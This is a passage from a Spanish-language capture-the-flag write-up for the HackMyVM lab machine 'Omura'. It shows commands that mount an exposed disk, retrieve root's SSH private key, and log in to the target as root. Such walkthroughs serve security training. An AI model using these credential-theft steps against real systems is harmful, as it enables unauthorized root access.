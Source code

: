 Una vez hayamos iniciado sesión listaremos todos los dispositivos de bloque, tendremos un nuevo dispositivo:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Omura]
└─# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINTS
sda      8:0    0 80.1G  0 disk 
└─sda1   8:1    0 80.1G  0 part /
sdb      8:16   0    5M  0 disk 
sr0     11:0    1 1024M  0 rom
```

En mi caso es `sdb`, os tenéis que asegurar que sabéis qué dispositivo es, ya que ahora tendremos que montarlo.

Antes de montarlo crearemos una carpeta, en mi caso se llama `disco`{: .filepath }. Una vez creada pasamos a la montura:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Omura]
└─# mkdir disco
                                                                                                                                       
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Omura]
└─# mount /dev/sdb disco
```

Ahora sólo nos queda entrar y ver qué hay ahí dentro:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Omura]
└─# cd disco 
                                                                                                                                       
┌──(root㉿kali)-[~/…/VMs/HMV/Omura/disco]
└─# ls
id_rsa
```

¡Ojo! Es la `id_rsa` de `root`, vamos a moverla a nuestro espacio para trabajar con ella más fácilmente:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Omura/disco]
└─# mv id_rsa ../root.id_rsa
```

Una vez en nuestro directorio de trabajo podemos darle los permisos necesarios, pero antes voy a desmontar el sistema de archivos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Omura]
└─# umount disco
```

Ahora sí, vamos a darle los permisos necesarios a la `id_rsa` para poder entrar como `root`:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Omura]
└─# chmod 600 root.id_rsa
                                                                                                                                       
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Omura]
└─# ssh -i root.id_rsa root@192.168.1.109      
Linux omura.hmv 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Apr 10 20:38:39 2023 from 192.168.1.105
```